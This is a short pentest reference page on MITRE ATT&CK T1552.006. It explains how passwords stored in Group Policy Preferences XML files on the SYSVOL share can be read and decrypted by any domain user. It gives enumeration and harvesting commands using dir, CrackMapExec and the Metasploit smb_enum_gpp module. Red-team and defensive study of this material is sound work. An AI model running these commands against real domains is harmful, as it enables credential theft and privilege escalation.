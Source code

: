 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1552.006
---
```


# Group Policy Preferences

Unsecured credentials in Group Policy Preferences (GPP) can be an easy way to obtain credentials and escalate privileges. GPP's are stored in SYSVOL on domain controllers. However, the real kicker is that any domain user can view the SYSVOL share, obtain the password, and decrypt it within seconds.

### Tactics

```powershell
# Enumerating credentials directory on the SYSVOL share
dir /s * .xml

# Enumerating credentials remotely from SYSVOL
dir /s \\[FQN]\SYSVOL\[FQDN\ | more

# Enumerating credentials remotely using CrackMapExec
crackmapexec smb $ip -u $username -p $password -M gpp_password

# Enumerating credentials remotely using Metasploit
use auxiliary/scanner/smb/smb_enum_gpp
set rhosts $ip
set SMBUser $username
set SMBPass $password
run
```
